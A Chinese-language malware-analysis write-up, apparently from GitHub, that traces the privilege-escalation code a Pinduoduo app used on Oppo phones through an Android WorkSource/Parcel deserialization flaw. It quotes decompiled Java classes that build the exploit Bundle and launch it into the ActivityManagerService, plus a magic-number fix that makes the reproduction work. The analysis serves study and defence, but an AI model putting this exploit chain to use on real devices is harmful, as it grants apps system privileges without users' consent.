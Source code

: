  # 某DD提权代码逆向分析

某DD对几大厂商手机的提权代码类似，都是使用了WorkSource的反序列化漏洞，因此，这里以Oppo的提权代码为例，简要分析流程。
## 逻辑梳理
- com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup，该类是oppo机型提权代码所在的类，它继承了com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp，而CommonAlivePullStartUp又依次继承com.xunmeng.pinduoduo.alive.base.ability.impl.provider.oppoLauncher.OppoLauncherProviderImpl、com.xunmeng.pinduoduo.alive.base.ability.interfaces.provider.BaseBizProviderImpl（BaseBizProviderImpl在拼多多主App中实现，可参考version 6.44），BaseBizProviderImpl实现了com.xunmeng.pinduoduo.alive.base.ability.interfaces.provider.IBizProvider：
```java
    package com.xunmeng.pinduoduo.alive.base.ability.interfaces.provider;
    
    public interface IBizProvider {
        boolean hasPermission();
    }
```

    IBizProvider接口类的代码只包含一个方法 hasPermission()。
    
    CommonAlivePullStartUp类中有一部分提权代码，是Android SDK各个level 都要用的，包括31。
    CommonAlivePullStartUp类中有intParcelClzMap()、initFuncMap()方法，initFuncMap()方法是用于构造提权bundle的，提权bundle中存放了类OppoLauncherProviderImpl的对象，该对象应该是OppoLauncherProviderImpl实现了Function接口类之后生成的一个对象：
```java
    public void initFuncMap() {
            this.sFuncMakeBundleMap.put("android.os.WorkSource", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp.1
                public Bundle makeBundle(Intent intent) {
                    return CommonAlivePullStartUp.this.makeBundleForWorkSource(intent);
                }
            });
        }
```  
    各家厂商的提权代码都继承了CommonAlivePullStartUp类，而且实现了自己的intParcelClzMap()、initFuncMap()方法：
```java
    /* JADX INFO: Access modifiers changed from: protected */
        @Override // com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp
        public void intParcelClzMap() {
            List asList = Arrays.asList("com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse", "com.android.internal.telephony.OperatorInfo");
            for (int i = 26; i <= 29; i++) {
                this.sParcelableClzMap.put(Integer.valueOf(i), asList);
            }
            this.sParcelableClzMap.put(30, Arrays.asList("com.oplus.orms.info.OrmsNotifyParam", "com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse"));
            super.intParcelClzMap();
        }
    
    
    /* JADX INFO: Access modifiers changed from: protected */
        @Override // com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.CommonAlivePullStartUp
        public void initFuncMap() {
            super.initFuncMap();
            this.sFuncMakeBundleMap.put("com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup.1
                public Bundle makeBundle(Intent intent) {
                    return OppoAlivePullStartup.this.makeBundleForOppoSinceOToQ(intent, "com.mediatek.internal.telephony.ims.MtkDedicateDataCallResponse");
                }
            });
            this.sFuncMakeBundleMap.put("com.android.internal.telephony.OperatorInfo", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup.2
                public Bundle makeBundle(Intent intent) {
                    return OppoAlivePullStartup.this.makeBundleForOppoSinceOToQ(intent, "com.android.internal.telephony.OperatorInfo");
                }
            });
            this.sFuncMakeBundleMap.put("com.oplus.orms.info.OrmsNotifyParam", new OppoLauncherProviderImpl() { // from class: com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup.OppoAlivePullStartup.3
                public Bundle makeBundle(Intent intent) {
                    return OppoAlivePullStartup.this.makeBundleForOppoForR(intent);
                }
            });
        }
```
    
    其中，Function接口类的代码如下：
```java
    package com.xunmeng.pinduoduo.android_pull_ability_comp.pullstartup;
    
    import android.content.Intent;
    import android.os.Bundle;
    
    public interface Function {
        Bundle makeBundle(Intent intent);
    }
```   
- 继续往上梳理，AlivePullStartUpImpl 类中有 makeBundle(Intent intent) 方法，该方法是通过 this.mMakeBundleFunction 属性调用其中的 makeBundle(Intent intent) 方法（即 Function 接口类的 makeBundle(Intent intent) 方法，该方法的实现在XXAlivePullStartup类的 initFuncMap() 方法中，它即是传入一个 intent 来写入漏洞提权所用的bundle），这里很关键，上层利用漏洞时应该要调用 AlivePullStartUpImpl 的 makeBundle(Intent intent) 方法来获取一个利用漏洞的bundle：
```java   
    public Bundle makeBundle(Intent intent) {
            if (intent == null) {
                Logger.w("SpecialPullAbility.Comp", "make empty bundle");
                return new Bundle();
            }
            Logger.i("SpecialPullAbility.Comp", "make bundle");
            if (this.mMakeBundleFunction == null) {
                Logger.i("SpecialPullAbility.Comp", "no make bundle function");
                return Bundle.EMPTY;
            }
            Bundle makeBundle = this.mMakeBundleFunction.makeBundle(intent);
            return makeBundle == null ? Bundle.EMPTY : makeBundle;
        }
```    
    
    AlivePullStartUpImpl 类中还有 startAccount(Intent intent) 方法，并通过该方法来调用 realStartAccount(Intent intent) 方法，这两个方法是将构造的反序列化漏洞代码送入AMS，完成提权：
```java
    private boolean realStartAccount(Intent intent) {
            Logger.i("SpecialPullAbility.Comp", "real start accountSettings activity.");
            try {
                BotBaseApplication.getContext().startActivity(intent);
                return true;
            } catch (Exception e) {
                StartPullUpTrack.trackScene("start_account_exception");
                Logger.e("SpecialPullAbility.Comp", e);
                return false;
            }
    }
```  
- 从类 AlivePullStartUpImpl 再往上，就是类：com.xunmeng.pinduoduo.alive.base.ability.comp.Main，这是提权漏洞使用的上层类，在该类中创建一个 AlivePullStartUpImpl 对象，用于完成提权操作：
```java    
    public class Main {
        private static final String TAG = null;
    
        public static IAlivePullStartUp getAlivePullStartUp() {
            Logger.i("LVBA.Plugin.Main", "getAlivePullStartUp");
            return new AlivePullStartUpImpl();
        }
    
        public static IStrategy createStrategyProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createStrategyProxy: " + str);
            return (IStrategy) ComponentContainer.getComponent(str);
        }
    
        public static IAliveBaseAbility getAliveBaseAbility() {
            Logger.i("LVBA.Plugin.Main", "getAliveBaseAbilityInstance");
            return new AliveBaseAbilityImpl();
        }
    
        public static IReceiver createReceiverProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createReceiverProxy: " + str);
            return (IReceiver) ComponentContainer.getComponent(str);
        }
    
        public static IVivoBindServiceComp getLauncherDetectVivoBindService() {
            Logger.i("LVBA.Plugin.Main", "getLauncherDetectVivoBindService");
            return VivoBindService.getInstance();
        }
    
        public static Boolean hasComponent(String str) {
            Logger.i("LVBA.Plugin.Main", "hasComponent: " + str);
            return Boolean.valueOf(ComponentContainer.getComponent(str) != null);
        }
    
        public static IActivity createActivityProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createActivityProxy: " + str);
            return (IActivity) ComponentContainer.getComponent(str);
        }
    
        public static IService createServiceProxy(String str) {
            Logger.i("LVBA.Plugin.Main", "createServiceProxy: " + str);
            return (IService) ComponentContainer.getComponent(str);
        }
    
        public static Set getComponentNames() {
            Logger.i("LVBA.Plugin.Main", "getComponentNames");
            return ComponentContainer.getComponentNames();
        }
    
        public static IPluginPAStrategyUtil getIPluginPAStrategyUtil() {
            Logger.i("LVBA.Plugin.Main", "getIPluginPAStrategyUtil");
            return new PluginPAStrategyUtilImpl();
        }
    }
```
## 可能的问题
- 在构造提权的bundle时，可能会报出如下错误：
 ```
 java.lang.IllegalStateException: Bad magic number for Bundle: 0x444e4c42
```
这是由于jadx反编译某DD代码出错，将bundle的magic number搞错了，这里应该改成0x4C444E42即可解决。
#### 声明：此处分析仅供学习参考，严禁违法使用，否则后果由违法使用者自行承担！